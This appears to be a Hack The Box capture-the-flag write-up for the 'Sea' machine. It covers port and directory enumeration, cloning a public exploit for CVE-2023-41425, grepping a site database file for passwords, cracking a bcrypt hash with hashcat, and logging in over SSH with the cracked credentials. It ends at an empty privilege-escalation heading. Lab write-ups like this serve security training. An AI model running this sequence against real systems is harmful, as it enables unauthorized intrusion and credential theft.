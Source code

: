 # Sea Write-up

<img src="https://labs.hackthebox.com/storage/avatars/0011f6725aed869f8683589cb08c90d0.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.28`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Sea - Home
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `sea.htb` to `/etc/hosts`

    echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts 

### Directory enumeration with Dirsearch

`python3 dirsearch.py -e php,html,js -u http://sea.htb 404,403,401,307`
                                      
    200 -    3KB - /404                                                                                   
    200 -    3KB - /contact.php                                      
    301 -  228B  - /data  ->  http://sea.htb/data/                                                       
    301 -  232B  - /messages  ->  http://sea.htb/messages/                                     
    301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
    301 -  230B  - /themes  ->  http://sea.htb/themes/                   

![image](https://github.com/user-attachments/assets/fc57769e-68e8-428d-a7be-641db54399e1)

`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    4KB - /themes/home                                      
    200 -    3KB - /themes/404                                       
    301 -  235B  - /themes/bike  ->  http://sea.htb/themes/bike/

![image](https://github.com/user-attachments/assets/f354c8b8-084e-4394-87b7-a8e128c3c87a)
   
`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes/bike/ 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    6B  - /themes/bike/version                              
    301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
    200 -    4KB - /themes/bike/home
    301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
    200 -   66B  - /themes/bike/summary                              
    200 -    3KB - /themes/bike/404                                  
    200 -    1KB - /themes/bike/LICENSE    

Let's check `sea.htb/themes/bike/LICENSE` and `sea.htb/themes/bike/summary`

![image](https://github.com/user-attachments/assets/7f3da3a7-1a99-4407-afbc-d589a8d3f5d2)

![image](https://github.com/user-attachments/assets/850e7ee9-d03c-46a2-bf53-07aa681a5a62)

## Exploitation

### CVE-2023-41425


    git clone https://github.com/prodigiousMind/CVE-2023-41425

![image](https://github.com/user-attachments/assets/19b772ec-4df9-4e14-ae4e-f2ee2b26564b)


![image](https://github.com/user-attachments/assets/e5e9ae5a-d9f1-4f91-baa0-82e10279429f)

![image](https://github.com/user-attachments/assets/4d290636-9b9a-4eae-999b-638138e681ab)

    cd /var/www/sea/data
    
    сat database.js | grep password

![image](https://github.com/user-attachments/assets/817e4a2e-3405-4329-9099-342adc7a4747)

hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

    echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

    hashcat -m 3200 -a 0 hash.txt /home/kali/wordlist/rockyou.txt 

![image](https://github.com/user-attachments/assets/d5277a85-d87f-43cc-a22a-08d6c405a9c9)

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`:`mychemicalromance`

### SSH

Connet to SSH with `amay`:`mychemicalromance` credentials

ssh amay@sea.htb

## Get the user flag!

![image](https://github.com/user-attachments/assets/0c9d2c75-78ba-42e1-a255-de032d0c9076)

## Privilege Escalation

